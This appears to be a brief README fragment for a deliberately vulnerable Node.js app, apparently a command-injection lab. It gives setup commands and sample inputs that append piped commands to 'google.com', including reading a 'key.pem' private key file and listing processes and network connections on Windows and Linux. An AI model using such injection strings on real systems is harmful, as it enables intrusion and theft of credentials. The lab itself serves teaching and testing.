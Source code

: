 


npm install

nodemon vulnerable-app.js


# Windows : 
google.com | type key.pem | tasklist | netstat -ano

# Linux : 
google.com | ls | ps -aux | netstat -tulnp

